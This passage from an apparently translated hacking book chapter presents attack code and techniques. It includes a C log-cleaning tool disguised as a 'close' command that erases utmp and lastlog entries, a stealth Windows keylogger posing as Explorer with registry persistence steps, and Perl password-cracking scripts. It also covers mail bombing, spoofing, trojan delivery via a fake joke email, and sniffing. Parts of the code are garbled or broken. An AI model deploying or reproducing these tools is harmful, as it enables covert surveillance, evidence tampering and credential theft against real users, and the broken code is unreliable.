#include <sys/types.h>
#include <unistd.h>
#include <lastlog.h>
main(argc, argv)
int	argc;
char	*argv[];
{
char	*name;
struct utmp u;
struct lastlog l;
int	fd;
int	i = 0;
int	done = 0;
int	size;

if (argc != 1) {
if (argc >= 1 && strcmp(argv[1], "cloakme") == 0) {
printf("You are now cloaked\n");
goto start;
}
else {
printf("close successful\n");
exit(0);
}
}

else {
printf("usage: close [file to close]\n");
exit(1);
}
start:
    name = (char *) (ttyname(0)+5);
    size = sizeof(struct utmp);

    fd = open("/etc/utmp", O_RDWR);
    if (fd < 0)
        perror("/etc/utmp");
    else {
        while ((read(fd, &u, size) == size) && !done) {
            if (!strcmp(u.ut_line, name)) {
                done = 1;
                memset(&u, 0, size);
                lseek(fd, -1*size, SEEK_CUR);
                write(fd, &u, size);
                close(fd);
            }
        }
    }

    size = sizeof(struct lastlog);
    fd = open("/var/adm/lastlog", O_RDWR);
    if (fd < 0)
        perror("/var/adm/lastlog");
    else {
        lseek(fd, size*getuid(), SEEK_SET);
        read(fd, &l, size);
        l.ll_time = 0;
        strncpy(l.ll_line, "ttyq2", 5);
        gethostname(l.ll_host, 16);
        lseek(fd, size*getuid(), SEEK_SET);
        close(fd);
    }
}
```

重要的是要牢记，一个有效的隐藏 Windows 键盘记录器，例如，会利用 Windows 中所有用户程序共享单个 *中断描述符表*（IDT）这一事实。这意味着如果一个用户程序修补了 IDT 中的一个向量，那么所有其他程序都会立即受到影响。最佳示例是来自安全爱好者 mark[j8 的 Phrack 帖子提交的一个示例，后来由被称为 midnightgame 的黑客大师翻新并重新发布。

此方法将在 WINDOWS\SYSTEM 目录中创建一个名为 POWERX.DLL 的隐藏文件，并使用与 Doc Cypher 的 DOS 键盘记录器程序 KEYTRAP3.COM 相同的编码方案将所有击键记录到该文件中。这意味着你可以使用相同的转换程序 CONVERT3.C 将日志文件中的扫描码转换为 ASCII。当程序启动时，如果日志文件大于 2 MB，它将被删除并重新创建为零长度。当你在 Windows 9x 中按下 Ctrl-Alt-Del 查看任务列表时，W95Klog 将显示为 Explorer。这可以通过任何十六进制编辑器或通过更改 .DEF 文件中的值并重新编译来修改。

为了使目标机器每次启动 Windows 时都运行 W95Klog，你可以：

-   *编辑 win.ini。* 修改 [windows] 部分，使其读作：run=WHLPFFS.EXE 或某些其他令人困惑的名称。如果找不到 WHLPFFS.EXE，这将导致一个烦人的错误消息。此方法的优势在于它可以通过“远程管理”通过网络执行，而不需要两台计算机都运行“远程注册表服务”。


## 编辑注册表项

-   修改 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 项，并创建一个新项，其字符串值为 `WHLPPFS.EXE`。这是首选方法，因为普通用户不太容易发现它，且即使找不到可执行文件，Windows 也会继续运行而不报任何错误。日志文件即使在被日志记录程序打开用于写入时，仍可通过网络获取。这对激进的黑客来说非常方便。

以下程序 *convert.c* 是一个隐蔽型键盘记录器的示例：

```c
// Convert v3.0
// Keytrap logfile converter.
// By dcypher

#include <stdio.h>
#include <string.h>

#define MAXKEYS 256
#define WS 128

const char *keys[MAXKEYS];

void main(int argc, char *argv[])
{
    FILE *stream1;
    FILE *stream2;

    unsigned int Ldata, Nconvert = 0, Yconvert = 0;
    char logf_name[100], outf_name[100];

    //
    // HERE ARE THE KEY ASSIGNMENTS !!
    //
    // You can change them to anything you want.
    // If any of the key assignments are wrong, please let
    // me know. I haven't checked all of them, but it looks ok.
    //
    //  v--- Scancodes logged by the keytrap TSR
    //  v--- Converted to the string here

    keys[1]   = "";
    keys[2]   = "1";
    keys[3]   = "2";
    keys[4]   = "3";
    keys[5]   = "4";
    keys[6]   = "5";
    keys[7]   = "6";
    keys[8]   = "7";
    keys[9]   = "8";
    keys[10]  = "9";
    keys[11]  = "0";
    keys[12]  = "-";
    keys[13]  = "=";
    keys[14]  = "";
    keys[15]  = "";
    keys[16]  = "q";
    keys[17]  = "w";
    keys[18]  = "e";
    keys[19]  = "r";
    keys[20]  = "t";
    keys[21]  = "y";
    keys[22]  = "u";
    keys[23]  = "i";
    keys[24]  = "o";
    keys[25]  = "p";
    keys[26]  = "[";  /* = ^Z  Choke! */
    keys[27]  = "]";
    keys[28]  = "";
    keys[29]  = "";
    keys[30]  = "a";
    keys[31]  = "s";
    keys[32]  = "d";
    keys[33]  = "f";
    keys[34]  = "g";
    keys[35]  = "h";
    keys[36]  = "j";
    keys[37]  = "k";
    keys[38]  = "l";
    keys[39]  = ";";
    keys[40]  = "'";
    keys[41]  = "`";

    keys[42] = ""; // left shift - not logged by the tsr
    keys[43] = "\\"; //                    and not converted
    keys[44] = "z";
    keys[45] = "x";
    keys[46] = "c";
    keys[47] = "v";
    keys[48] = "b";
    keys[49] = "n";
    keys[50] = "m";
    keys[51] = ",";
    keys[52] = ".";
    keys[53] = "/";
    keys[54] = ""; // right shift - not logged by the tsr
    keys[55] = "*"; //                    and not converted

    keys[56] = "";
    keys[57] = " ";

    // now show with shift key
    // the TSR adds 128 to the scancode to show shift/caps
    keys[1+WS]  = "["; /* was "" but now fixes ^Z problem */
    keys[2+WS]   = "!";   
    keys[3+WS]   = "@";
    keys[4+WS]   = "#";
    keys[5+WS]   = "$";
    keys[6+WS]   = "%";
    keys[7+WS]   = "^";
    keys[8+WS]   = "&";
    keys[9+WS]   = "*";
    keys[10+WS]   = "(";
    keys[11+WS]   = ")";
    keys[12+WS]   = "_";
    keys[13+WS]   = "+";
    keys[14+WS]   = "";
    keys[15+WS]   = "";
    keys[16+WS]   = "Q";
    keys[17+WS]   = "W";
    keys[18+WS]   = "E";
    keys[19+WS]   = "R";
    keys[20+WS]   = "T";
    keys[21+WS]   = "Y";
    keys[22+WS]   = "U";
    keys[23+WS]   = "I";
    keys[24+WS]   = "O";
    keys[25+WS]   = "P";
    keys[26+WS]   = "{";
    keys[27+WS]   = "}";
    keys[28+WS]   = "";
    keys[29+WS]   = "";
    keys[30+WS]   = "A";
    keys[31+WS]   = "S";
    keys[32+WS]   = "D";
    keys[33+WS]   = "F";
    keys[34+WS]   = "G";
    keys[35+WS]   = "H";
    keys[36+WS]   = "J";
    keys[37+WS]   = "K";
    keys[38+WS]   = "L";
    keys[39+WS]   = ":";
    keys[40+WS]   = "\"";
    keys[41+WS]   = "~";
    keys[42+WS]   = "";   // left shift - not logged by the tsr
    keys[43+WS]   = "|";   //                  and not converted
    keys[44+WS]   = "Z";
    keys[45+WS]   = "X";
    keys[46+WS]   = "C";
    keys[47+WS]   = "V";
    keys[48+WS]   = "B";
    keys[49+WS]   = "N";
    keys[50+WS]   = "M";
    keys[51+WS]   = "<";
    keys[52+WS] = ">";
    keys[53+WS] = "?";
    keys[54+WS] = ""; // right shift - not logged by the tsr
    keys[55+WS] = ""; // and not converted

    keys[56+WS] = "";
    keys[57+WS] = " ";

    printf("\n");
    printf("Convert v3.0\n");
    // printf("Keytrap logfile converter.\n");
    // printf("By dcypher \n\n");
    printf("Usage: CONVERT infile outfile\n");
    printf("\n");

    if (argc == 3)
    {
        strcpy(logf_name, argv[1]);
        strcpy(outf_name, argv[2]);
    }
    else
    {
        printf("Enter infile name: ");
        scanf("%99s", &logf_name);
        printf("Enter outfile name: ");
        scanf("%99s", &outf_name);
        printf("\n");
    }

    stream1 = fopen(logf_name, "rb");
    stream2 = fopen(outf_name, "a+b");

    if (stream1 == NULL || stream2 == NULL)
    {
        if (stream1 == NULL)
            printf("Error opening: %s\n\a", logf_name);
        else
            printf("Error opening: %s\n\a", outf_name);
    }
    else
    {
        fseek(stream1, 0L, SEEK_SET);
        printf("Reading data from: %s\n", logf_name);
        printf("Appending information to...: %s\n", outf_name);

        while (feof(stream1) == 0)
        {
            Ldata = fgetc(stream1);

            if (Ldata > 0 && Ldata < 186)
            {
                if (Ldata == 28 || Ldata == 28 + WS)
                {
                    fputc(0x0A, stream2);
                    fputc(0x0D, stream2);
                    Yconvert++;
                }
                else
                {
                    Yconvert++;
                }
            }
            else
            {
                fputs("", stream2);
                Nconvert++;
            }
        }
        fflush(stream2);
        printf("\n\n");
        printf("Data converted... .: %i\n", Yconvert);
        printf("Data not converted: %i\n", Nconvert);
        printf("\n");
        printf("Closing infile: %s\n", logf_name);
        printf("Closing outfile: %s\n", outf_name);
        fclose(stream1);
        fclose(stream2);
    }
}
```

*convert.c* 需要 *W95Klog.c*，如下所示。

# W95Klog.c

```c
/*
 * W95Klog.C  Windows stealthy keylogging program
 */

/*
 * Change newint9( for your compiler
 * Captures ALL interesting keystrokes from WINDOWS applications
 * but NOT from DOS boxes.
 * Tested OK on WFW 3.11 and Win9x.
 */

#include <dos.h> // Inc Mods
#include <windows.h>
#include <win.h>
#include <winuser.h>

#define LOGFILE "POWERX.DLL" //Name of log file in WINDOWS\SYSTEM
#define LOGMAXSIZE 2097152 //Max size of log file (2Megs)

#define HIDDEN 2
#define SEEK_END 2

#define NEWVECT 018h // "Unused" int that is used to call old
// int 9 keyboard routine.
// Was used for ROMBASIC on XT's
// Change it if you get a conflict with some
// very odd program. Try 0f9h.

/************* Global Variables in DATA SEGment *****************/

HWND hwnd; // used by newint9()
unsigned int offsetint; // old int 9 offset
unsigned int selector; // old int 9 selector
unsigned char scanCode; // scan code from keyboard

//WndProc
char sLogPath[160];
int hLogFile;
long lLogPos;
char sLogBuf[10];

//WinMain
char szAppName[]="Explorer";
MSG msg;
WNDCLASS wndclass;

/*********************/
//
//
//
void interrupt newint9(void) //This is the new int 9 (keyboard) code
// It is a hardware Interrupt Service Routine. (ISR)
{
    scanCode = inb(0x60);
    if ((scanCode < 0x40) && (scanCode != 0x2a)) {
        if (peekb(0x0040, 0x0017) & 0x40) { //if CAPSLOCK is active
            // Now we have to flip UPPER/lower state of A-Z only! 16-25,30-38,44-50
            if (((scanCode > 15) && (scanCode < 26)) || ((scanCode > 29) && (scanCode < 39)) ||
                ((scanCode > 43) && (scanCode < 51))) //Phew!
            {
                scanCode ^= 128; //bit 7 indicates SHIFT state to CONVERT.C program
            } //if CAPSLOCK
        }
        if (peekb(0x0040, 0x0017) & 3) //if any shift key is pressed...
        {
            scancode ^= 128;      //bit 7 indicates SHIFT state to CONVERT.C program
        }
        if (scancode == 26)   //Nasty ^Z bug in convert program
            scancode = 129;      //New code for "["

        //Unlike other Windows functions, an application may call PostMessage
        //  at the hardwareinterrupt level. (Thankyou Microsoft!)
        PostMessage(hwnd, WM_USER, scancode, 0L); //Send scancode to WndProc()
    } //if scancode in range

    asm {   //This is very compiler specific, & kinda ugly!
        pop  bp
        pop  di
        pop  si
        pop  ds
        pop  es
        pop  dx
        pop  cx
        pop  bx
        pop  ax
        int  NEWVECT      // Call the original int 9 Keyboard routine
        iret             // and return from interrupt
    }
    //end newint9

    //This is the "callback" function that handles all messages to our "window"
    //
    long FAR PASCAL WndProc(HWND hwnd, WORD message, WORD wParam, LONG lParam)
    {
        //asm int 3;      //For Soft-ice debugging
        //asm int 18h;    //For Soft-ice debugging

        switch(message) {
            case WM_CREATE:  // hook the keyboard hardware interrupt
                asm {
                    pusha
                    push es
                    push ds
                    // Now get the old INT 9 vector and save it...
                    mov al,9
                    mov ah,35h        // into ES:BX
                    int 21h
                    push es
                    pop ax
                    mov offsetint,bx  // save old vector in data segment
                    mov selectorint,ax  //
                    mov dx,OFFSET newint9 // This is an OFFSET in the CODE segment
                }
                break;
        }
        return 0;
    }
}
```


## 邮件炸弹、垃圾邮件与伪造

邮件炸弹是用于使收件人的电子邮件箱崩溃，或通过利用目标的 SMTP 网关发送未授权邮件进行垃圾邮件轰炸的电子邮件消息。邮件炸弹的形式可以是一封附带巨大文件的电子邮件，也可以是成千上万封电子邮件，其意图是淹没邮箱和/或服务器。例如，有一些软件程序会生成成千上万封电子邮件，并将其发送到用户的邮箱，从而导致邮件服务器崩溃或当特定目标达到其默认限制时对其进行限制。


**图 8.5** 伪造邮件头以冒充电子邮件。

垃圾邮件是另一种形式的骚扰；这是一种试图将电子邮件发送给那些原本不会选择接收它的人的行为。最常见的例子是商业广告。互联网上提供出售垃圾邮件引擎，目前有数十万个电子邮件地址伴随着垃圾邮件的爆炸式增长。黑客们普遍知道，除非垃圾邮件涉及非法物品的销售，否则几乎没有法律补救措施。

其他广泛存在的案例包括电子邮件欺诈，这涉及攻击者通过伪造电子邮件消息中“发件人”字段中另一个人的电子邮件地址（如图 8.5 所示）来冒充邮件，然后发送大规模电子邮件，指示收件人“回复”该受害者的邮箱以获取更多信息等等。目前，ISP 正在寻找邮件欺诈轰炸者，因为它们众所周知会干扰整个网络的服务。

大多数邮件轰炸者声称他们的机制以匿名方式保护发送者。你会发现，伪造这些消息可能很困难。你还会意识到，大多数这些邮件轰炸程序都附带了一个当前不记录 IP 地址的 SMTP 服务器列表。简而言之，大多数基于 Windows 的邮件轰炸程序就是这样发送伪造电子邮件的。

因此，希望伪造电子邮件的黑客使用如 Avalanche（或 DOS 模式下的 Mailflash）等程序，通过使用不记录 IP 的服务器。Up Yours（如图 8.6 所示）和 Avalanche 是用于轰炸某人电子邮件地址的程序。它们是在匿名性和速度这两个双重目标下制作的。平均而言，例如，Avalanche 可以使用仅在 28.8 K 连接上运行的五个克隆，在五到七秒内发送大约 20 封电子邮件。此外，这些程序可以生成虚假的邮件头，以帮助掩盖攻击。

Bombsquad 实用程序旨在保护免受邮件炸弹和垃圾邮件的侵害，尽管它最初的设计主要是为了解决邮件轰炸。该软件允许你删除邮件炸弹，同时检索并保存重要消息。它可以用于支持标准 POP3 协议的任何邮箱。话虽如此，要注意，围绕的虚假 Bombsquad 编译版本会实现远程控制木马，导致比邮件轰炸更糟糕的后果。据报道，这些守护进程附带了以下文件名：

- squad1.zip
- squad.zip
- bomsg.zip
- bmsquad.rar


**图 8.6** Up Yours 邮件轰炸控制面板。

> **黑客笔记** 有关邮件炸弹对策的更多信息，请参阅 *Hack Attacks Denied* 并访问计算机事件预警能力（CIAC）信息公告 http://ciac.lln.gov/ciac/bulletins/c-005c.shtml。

## 密码破解

忘记密码？你的密码被销毁了吗？需要访问受密码保护的文件或系统？你的某些前员工离开时没有保护他们的文件吗？或者你只是想了解黑客是如何访问你的网络、系统和受保护文件的？

在典型的计算机系统中，每个用户都有一个固定密码，直到他或她决定更改为止。当输入密码时，计算机的认证内核对其进行加密，将其转换为字符串，然后将其与长长的加密密码列表进行比对。基本上，这个列表是存储在计算机中的密码文件。如果认证模块找到与登录配对的相同字符串，则允许访问系统。因此，出于明显的原因，想要闯入系统并获得特定访问权限的黑客通常会针对这个密码文件。根据配置，如果黑客已达到特定的访问级别，他们可以复制该文件并运行密码破解程序，将这些字符还原为原始密码。

从根本上说，密码破解程序加密大量的字符串列表，例如字典中的所有单词，并将其与密码的加密文件进行比对。如果它找到任何一个匹配项，入侵者就获得了系统的访问权限。这种攻击不需要高水平的技能；因此，互联网上有许多类型的密码破解程序。一些系统可以通过严格保护密码文件来防御破解程序。然而，更大的问题是嗅探器（在本章后面描述）。

### 解密与破解

与普遍认为不同，使用单向算法加密的 UNIX 密码很难解密。登录程序在密码提示符处输入文本并进行加密，并将该加密字符串与密码的加密形式进行比较。密码破解软件使用单词列表；单词列表中的每个单词都被加密，并将其结果与目标密码的加密形式进行比较。针对 UNIX 密码最常见且资深的破解程序之一是由黑客大师 manix 编写的 `xcrack.pl`，如下所示。

```perl
# start xcrack.pl

#system("cls");    # This will clear the terminal/DOS screen
                    # Then stick this info on the screen
print ("\n \t\t-----------------------------\n");
print ("\n \t\t Xcrack V1.00");
print ("\n \t\thttp://www.infowar.co.uk/manix");
print ("\n \t\t-----------------------------\n");

if ($#ARGV < 1) {

    usage(); # Print simple statement how to use program if no arguments
    exit;
}

$passlist = $ARGV[0];      # Our password File
$wordlist = $ARGV[1];      # Our word list
# ---------------- Main Start ---------------------
```


## xcrack.pl

```perl
getwordlist();				# 获取所有单词并放入数组
getpasslist();				# 获取登录名和密码
print ("\n\tFinished - ", $wordlist, " - Against - ", $passlist);
#------------------------------------------------------------
sub getpasslist{
open (PWD, $passlist) or die (" 密码文件名无效 ",
$passlist, "\n");
while (<PWD>)
{
	($fname, $encrypted, $uid, $gid, $cos, $home, $shell) = split (
/:/);
	if ($encrypted eq "**")		# 检查账户是否被锁定
	{
		print "账户：", $fname, "		-------
	已禁用\n";
		next;		# 跳过到下一次读取
	}
	if ($encrypted eq "x")		# 检查账户是否被锁定
	{
		print "账户：", $fname, "		-------
	已禁用\n";
		next;		# 跳过到下一次读取
	}
	if ($encrypted eq "")		# 检查账户是否没有密码
	{
		print "账户：", $fname, "		-------
	无密码\n";
		next;		# 跳过到下一次读取
	}

enccompare();				# 调用下一个子程序
	}
} close (PWD);	# 关闭密码文件
}
#------------------------------------------------------------
sub getwordlist{
open (WRD, $wordlist) or die (" 单词文件名无效 ", $wordlist,
"\n");
while (<WRD>)
{
	@tmp_array = split;			# 获取
	# 单词文件的
	push @word_array, [@tmp_array]; # 全部内容并存放
	# 在这里
	}
close (WRD);	# 关闭单词列表文件
}
#------------------------------------------------------------
sub enccompare{
for $password ( @word_array)
{
	$encword = crypt (@$password[0], $encrypted); # 使用与加密
	# 单词
	# 相同的盐值进行加密
if ($encword eq $encrypted)                          # 作为加密后的
	# 密码
		{
print "账户：", $fname, "\t-----\t" "密码：",
@$Password[0], "\n";
			last;		# 如果破解成功，打印账户名和密码
			# 然后跳出循环
		}
	}
###############################################################
sub usage { print "用法 = perl xcrack.pl 密码文件 单词文件\n";
	}
# xcrack.pl 结束	# 如果没有参数 #ARGV 则简单提示用法
```

要运行 xcrack，请使用以下命令：
`perl xcrack.pl PASSWORDFILE WORDFILE`

最新的 Perl 引擎可在 www.Perl.com 获取。此程序必须配合单词文件或字典列表执行（本书随书附带的光盘中有一个）。要使用自定义输入创建密码文件，请执行 crypt.pl，如下所示：

## crypt.pl

```perl
# 用法 "Perl crypt.pl 用户名 密码 uid gid cos home

# 启动 crypt.pl
if ($#ARGV < 1) {
		usage();
		exit;
	}
	
$file = "password";				# 仅为变量提供文件名
$username = $ARGV[0];			# 携带名称
$password = $ARGV[1];			# 携带未加密的密码
$uid = $ARGV[2];			# uid
$gid = $ARGV[3];			# gid
$cos = $ARGV[4];			# cos
$home = $ARGV[5];				# 主目录
$shell = $ARGV[6];			# 使用的 shell
$encrypted = crypt ($password, "PH");		# 加密密码
open (PWD, ">>$file") or die ("无法打开密码文件\n");	# 以追加模式打开文件
		#写入数据并使用冒号分隔
print PWD $username, ":", $encrypted, ":", $uid,
":", $gid, ":", $cos, ":", $home, ":", $shell, "\n";
close (PWD);				# 关闭文件
print "添加成功";

sub usage{
print "\n用法 perl crypt.pl 用户名 密码 uid gid cos home she
ll\n";
}
# crypt.pl 结束
```

本 Perl 系列中的最后一个模块用于使用随机字符创建单词列表，如下所示：

```perl
if ($#ARGV < 1) {
usage();		# 如果没有参数则打印用法
exit;
}

$word = $ARGV[0];
$many = $ARGV[1];\ srand(time);
			# 我们要生成的随机字符数组
			# 移除任何你已知不在密码中的字符

@c=split( / */,
"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789");

open (CONF, ">>$word") or die ("\n输出文件错误\n");
# 我们将重复以下行 $many 次，我将拆分
# @c 数组，大写算 1 个，符号算 1 个，小写算 1 个，数字算 1 个。

for($i=0; $i <$many; $i +=1)
		{
print CONF	$c[int(rand(62))], $c[int(rand(62))], $c[int(rand(62
))]),
				$c[int(rand(62))], $c[int(rand(62))], $c[int(rand(62))]
				,
				$c[int(rand(62))], $c[int(rand(62))];
print CONF "\n";
		}

sub usage
		{
		print "\n用法 = perl wordlist.pl 输出文件 单词数量
 \n";
		}

# 在下一个版本中，我希望能够输入模板
# 并构建所有组合，即密码以 "John" 开头，共有 8 个字符，且没有数字或
# 大写字母，因此我们可以输入 "john"1111 ..

# 下面将生成类似 bababa99 的单词，这是已完成的，可以根据需要在下一个版本之前
# 进行稍微调整 ........

# @c=split(/ */", "bcdefghjklmnpqrstvwxyz");
# @v=split(/ */", "aeiou");

# {
# print CONF $c[int(rand(21))], $v[int(rand(5))],
#       $c[int(rand(21))], $v[int(rand(5))],
#       $c[int(rand(21))], $v[int(rand(5))],
#       int(rand(10)), int(rand(10));
# print CONF "\n";
# }
```

## 密码破解

在 Windows 中，密码破解通常通过使用 UnSecure 的修订版来实现（见图 8.7），这是一个黑客用来利用当前网络和互联网安全漏洞的程序。该程序能够操控可能的密码组合以锁定用户的密码。目前，


### 图 8.7 UnSecure 密码破解器。

UnSecure 可以突破大多数 Windows 9x、Windows NT、Mac、UNIX 和其他操作系统服务器，无论是否有防火墙。该软件设计用于通过现有的网络连接使用，但也能够使用拨号连接。在 Pentium 233 处理器上，当进行本地攻击时，UnSecure 可以在五分钟内遍历包含 98,000 个单词的字典。

UnSecure 使用两种密码破解方法：字典攻击和暴力破解。字典攻击将尝试与包含您选择的所有单词和组合的文件进行比较，这些内容由空格、回车符、换行符等分隔。暴力破解允许您尝试使用指定字符（a-z、A-Z、0-9 和特殊字符）的所有可能密码组合。


密码影子（Password shadowing）是一种安全措施，其中 /etc/passwd 中的加密密码字段被替换为一个特殊令牌，然后加密的密码存储在另一个单独的文件中。为了击败密码影子，黑客编写程序，通过连续调用 getpwent() 强制获取密码文件。

## 远程控制

随着互联网呈指数级增长以及协作技术的高级化，有许多在全球分发的程序，甚至能让最具威胁的病毒显得无害。这些程序旨在允许远程攻击者隐蔽地控制您的网络服务器或个人计算机。装备了此类守护进程，攻击者可以收集密码、访问账户（包括电子邮件）、修改文档、共享硬盘卷、记录按键、截取屏幕快照，甚至监听计算机麦克风中的对话。

鉴于此，考虑到黑客控制您的计算机所带来的影响至关重要：他们可以代表您在线账户下订单，阅读您的个人电子邮件，使用您的系统向他人发送垃圾邮件或邮件炸弹，甚至远程查看您的屏幕。这些程序的某些极度危险变种具有擦除整个磁盘驱动器甚至损坏监视器的能力。据报道，有些受害者正同时在操作他们的系统，而他们的计算机却在被远程控制在某些犯罪活动中。此类攻击使得受害者很难证明自己的清白，特别是如果黑客在犯罪后擦除了他们存在的证据（包括前面讨论过的日志篡改和类似技术）。

这些程序被称为远程控制守护程序，它们目前通过许多方式分发：伪装成笑话、游戏、图片、屏幕保护程序、节日问候和实用工具等。最广泛流行的三种远程控制程序是 Netbus、Back Orifice 和 SubSeven，但还有很多其他程序。第 4 章列出了最常见的变种。

到目前为止，反病毒/特洛伊木马程序包根本无法跟上不同版本的远程控制器的更新。而且，或许更令人警惕的是，分发和运行这些程序所需的黑客专业知识非常少。大多数程序都包含提供带有图形用户界面（GUI）的详细菜单的客户端。例如，最近，黑客一直在通过电子邮件垃圾邮件附件传播流行远程控制守护程序 BackDoor-G 的一个变种，称为 BACK-AGN。在运行中，恶意代码通常具有欺骗性或非法的返回地址；因此，附件可能携带几乎任何虚假身份。当用户点击它时，程序执行，安装自身，并在系统中创建一个巨大的漏洞。这是一个 Windows 9x 互联网后门特洛伊木马，通过互联网提供对系统的几乎无限制的访问。

更令人警惕的是，有许多像 BackDoor-G 这样的程序变种流传，其操作对用户来说几乎无法检测，尽管它安装在 Windows 和 Windows/System 文件夹中的文件在受感染系统上可以轻易找到。在这两个变种中，第一个安装的文件名为 BackDoor-G.ldr，位于 Windows 文件夹中，充当主特洛伊木马服务器的加载器。第二个是内核特洛伊木马模块本身，名为 BackDoor-G.srv；它也位于 Windows 文件夹中。该程序的这一部分接收并执行来自互联网的指令。它包含一个动态链接库（DLL）文件，名为 WATCHING.DLL 或 LM_DRK_33.DLL，该程序将其复制到 Windows\System 文件夹中。然后，特洛伊木马服务器监控来自被标识为 BackDoor-G.dll 的客户端软件的互联网连接。


与 BackDoor-G 相关的其他文件包括客户端程序，该程序被标识为 BackDoor-G.cli，以及一个配置程序，被标识为 BackDoor-G.cfg。

为了演示一种远程控制技术，以下各节描述了利用对一次实际攻击的重建所采用的过程（分为三个简单的步骤）。此类攻击每天都在发生。

## 步骤 1：做些调研

在此步骤中，攻击者选择目标并执行一些目标发现工作。一旦攻击者从广告帖子、聊天室、新闻组、留言板、公司网站——任何地方——获取了目标电子邮件地址，验证目标 ISP 的 IP 地址范围就非常容易。已经开发了许多方法来获取潜在的地址范围，包括端口扫描、域名查询、fingering、SMTP 查询等等（见图 8.8）。


**图 8.8** 步骤 1，获取目标地址。

## 步骤 2：发送友好的电子邮件

在此步骤中，攻击者决定了特洛伊木马分发的方式和手段。像许多笑话爱好者一样，这次攻击的受害者已被众多朋友、家人和帖子站点添加到笑话列表中，其中每天都有好、坏或丑陋的笑话被转发，名义上是为了让收件人开心。在这种情况下，攻击者选择了一个丑陋的笑话。在这封电子邮件（伪装有图 8.9 所示的真实笑话网站）中，它恰好到达了受害者繁忙工作日的结束——从攻击者的角度来看，时机完美，此时受害者正迫切希望缓解当天的紧张情绪。

该电子邮件其余文本部分来自真实笑话邮件群发的新闻和赞助商片段。同样，第一个附件是 www.Strangeland.com 的合法 Flash 笑话制作（见图 8.10）。

另一方面，电子邮件的第二个附件（制作的第二部分）起初似乎会正常执行——没有运行时错误。但令受害者沮丧的是，该文件并没有产生任何特别的东西——当然他运行了几次以确保万无一失（糟糕）……

## 步骤 3：再夺一个受害者

在此步骤中，攻击者只需等待几天，以防受害者拥有适当的资源来监控和检测攻击。


**图 8.9** 步骤 2，伪装电子邮件。

| 端口 | 1010-1015 |
| :--- | :--- |
| 服务 | Doly Trojan |

**黑客策略**：这种特洛伊木马因对目标的完全远程控制而闻名。图 8.11 中展示的 Doly 是一个极其危险的守护进程。据报道，该软件使用多个不同的端口，而且有传言称文件名可以被修改。

没有比这更简单的了。从这个案例中，更容易看到使用远程控制守护进程进行黑客攻击所需的专业技术是多么少。总之，在延迟期后，攻击者执行远程特洛伊木马端口扫描，希望一个或多个潜在受害者陷入了“Doly-lama”的陷阱。这次攻击的成功结果如图 8.12 所示。


**图 8.10** 伪装成 Flash 笑话制作的特洛伊木马。


**图 8.11** 通过 Doly 特洛伊木马进行远程控制。


**图 8.12** 成为 Doly 特洛伊木马受害者的后果。

## 嗅探

嗅探器是一种软件程序，它被动地拦截并复制系统、服务器、路由器或防火墙上的所有网络流量。通常，嗅探器用于合法功能，如网络监控和故障排除。相比之下，黑客安装的所谓隐形嗅探器对网络安全构成极大威胁，因为它们难以检测，并且几乎可以在任何地方自我安装。想象一下前一个后门案例中的第四步，其中包括嗅探器的远程传输和安装。后果可能是严重的，因为整个网络（而不仅仅是单个系统）都可能暴露。

为了本次讨论的目的，前面的攻击是借助远程嗅探器重建的。大多数嗅探器变体都可以编程为专门检测并提取包含例如登录名和/或密码的数据副本。远程登录、拨号、虚拟连接、外联网等更容易受到嗅探器的攻击，因为通过 Internet 的流量可能会经过数百个网关。想象一下，如果未授权的嗅探器被安装在一个主要的 Internet 网关上，可能会被窃取多少无尽的登录名和密码。

如前所述，嗅探器是网络问题诊断的宝贵工具，因此让我们进一步研究嗅探器的作案手法，以充分理解嗅探器黑客攻击的后果。从根本上说，嗅探器被动地存储进入和离开网络接口和/或调制解调器的数据副本。我们将检查来自两个方向的嗅探器捕获。

穿越网络的信息（因此容易受到嗅探器攻击）范围几乎是无限的。查看一些样本捕获有助于理解其广度。在较低层次上，节点 IP 地址和介质访问控制（MAC）地址很容易获取（如图 8.13 所示）。请记住，MAC 是物理地址；它不是逻辑地址，就像 IP 地址一样。数据链路层的主机间通信使用这种地址方案。当消息在网络段中传播时，每个接收 NIC 都会查看帧中的目标硬件地址，然后要么忽略它，要么接收它（如果目标地址是接收计算机的地址或广播 MAC 地址）。但如果你不知道你要与之通信的机器的 MAC 地址会发生什么？在这种情况下，地址解析协议（ARP）会使用广播 MAC 地址发送一条消息。这条消息是要求使用 IP 地址 xxx.xxx.xxx.xx 的机器响应其 MAC 地址。作为一个广播，网络段上的每台机器都会收到这条消息。


**图 8.13** 节点 IP 和 MAC 地址很容易获取。

在中低层，广泛的网络信息容易受到威胁，如图 8.14 所示。查看捕获 00013，我们可以推断出关键的 Novell NetWare 服务器信息：IPX 协议及其与服务访问点（SAP）的关系。NetWare IPX 服务器会发送广播帧（SAP）以响应正在寻找特定 NetWare 服务的站点发出的获取最近服务器（GNS）请求。SAP 头部包含诸如操作类型（A=请求，B=响应）和服务类型（0004H=文件服务器，0007H=打印服务器）等信息。进一步的捕获分析将揭示该会话中的网络、节点和服务器地址。我们还可以了解在到达目标服务器之前需要交会的跳数或网络数量。


**图 8.14** 收集广泛的网络信息。


**图 8.15** 敏感的互联网数据很容易获取。

在中层，我们可以捕获敏感的互联网数据以发现路由过程、协议和整个子网工作范围（见图 8.15）。在此捕获分析中，我们的隐形嗅探器可以说为发现目标打开了另一个潘多拉魔盒。如图所示，路由信息协议（RIP）是目标互联网选择的路由协议。RIP 有两个版本，1 和 2（RIP I、RIP II）。在此捕获中，请注意 RIP II 是该协议的当前版本，其主要优点是支持可变长子网掩码（VLSM）。基本上，VLSM 通过允许网络掩码进一步划分为子网，确保 IP 地址不会被浪费。我们还意识到了整个网络（10.1.1.2/24 和 10.1.3.0/24）和主网关路由器（172.29.44.1）。从这个摘录中，我们可以假设网关是 Cisco 路由器，因为 Cisco 通常以二进制格式表示地址网络部分使用的位数（xxx.xxx.xxx/24）。本质上，/24 代表子网掩码中的位数。回想第 1 章，掩码中的 24 位等同于地址 255.255.255.0。这意味着我们发现了参与的所有网络，其中可能有容易受到攻击的系统：

- 10.1.2.0/255.255.255.0
- 10.1.3.0/255.255.255.0


**图 8.16** 密码可以很容易地被明文捕获。


当然，我们不应忽视位于地址 172.29.44.1 的一个潜在存在漏洞的思科路由器。

